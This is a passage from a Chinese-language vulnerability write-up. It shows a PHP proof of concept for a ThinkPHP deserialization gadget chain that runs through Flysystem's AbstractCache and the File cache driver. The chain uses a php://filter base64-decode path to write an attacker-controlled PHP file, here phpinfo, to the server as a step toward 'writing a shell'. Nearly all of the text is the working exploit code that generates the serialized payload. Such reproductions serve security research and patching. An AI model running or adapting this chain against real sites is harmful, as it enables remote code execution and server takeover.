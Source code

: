 然后就是写入shell了

其实这里字符拼接,$data可控也是可以去调用toString的

## 漏洞复现

poc

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = "aaaPD9waHAgcGhwaW5mbygpOz8+";
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key = "1";
        public function __construct()
        {
            $this->store = new File();
        }
    }
    echo base64_encode(serialize(new CacheStore()));
}

namespace think\cache {
    abstract class Driver
    {
    }
}

namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
        protected $options = [
            'expire'        => 1,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'php://filter/write=convert.base64-decode/resource=',
            'hash_type'     => 'md5',
            'data_compress' => false,
            'tag_prefix'    => 'tag:',
            'serialize'     => ['trim']
        ];
    }
}

```

